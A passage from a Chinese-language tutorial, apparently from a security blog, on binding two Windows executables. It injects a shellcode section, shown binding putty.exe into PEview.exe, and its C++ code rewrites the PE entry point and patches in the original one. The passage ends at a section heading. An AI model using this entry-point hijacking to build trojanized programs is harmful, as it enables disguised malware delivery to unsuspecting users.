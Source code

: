 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01558bee06880c6361.png)

最后一步是更新Optional Header中的入口点地址，替换shellcode中的入口点占位符。



```
// update address of entry point
// redefine headers
// get DOS header
pidh = (PIMAGE_DOS_HEADER)output.data();
// get NT headers
pinh = (PIMAGE_NT_HEADERS)((DWORD)output.data() + pidh-&gt;e_lfanew);
// find .text section
pishText = IMAGE_FIRST_SECTION(pinh);
// get .aids section (now is 2nd last)
pishLast = (PIMAGE_SECTION_HEADER)(pishText + (pinh-&gt;FileHeader.NumberOfSections - 2));
PIMAGE_SECTION_HEADER pishAids = pishLast;
// calculate new entry point
DWORD dwNewEntryPoint = pishAids-&gt;VirtualAddress + SHELLCODE_START_OFFSET;
pinh-&gt;OptionalHeader.AddressOfEntryPoint = dwNewEntryPoint;
// update OEP in shellcode
::CopyMemory(output.data() + pishAids-&gt;PointerToRawData + SHELLCODE_START_OFFSET SHELLCODE_OEP_OFFSET, &amp;dwOEP, sizeof(dwOEP));
```



**六、成果展示**

这里我会展示两个可执行文件绑定后的效果，我选择使用**PEview.exe**作为目标文件，使用**putty.exe**作为载荷文件。

**6.1 程序执行效果**

[![](https://p0.ssl.qhimg.com/t0110506ffaaed1e5af.jpg)](https://p0.ssl.qhimg.com/t0110506ffaaed1e5af.jpg)

**6.2 查看section**

.aids section

[![](https://p1.ssl.qhimg.com/t0121e28bd48245f5f9.jpg)](https://p1.ssl.qhimg.com/t0121e28bd48245f5f9.jpg)

.payload section

[![](https://p5.ssl.qhimg.com/t01ca74447489dce027.jpg)](https://p5.ssl.qhimg.com/t01ca74447489dce027.jpg)



**七、总结**

这种方法不仅可以把简单shellcode注入可执行文件，弹出消息对话框，进一步扩展后可以完成更为复杂的操作，比如可以生成完全独立的可执行文件。只需要掌握PE文件的相关知识、基本的shellcode编写技巧以及Windows系统的一些内部工作原理，我们能发挥的空间（基本）不会受到任何限制。



**八、可改进的地方**
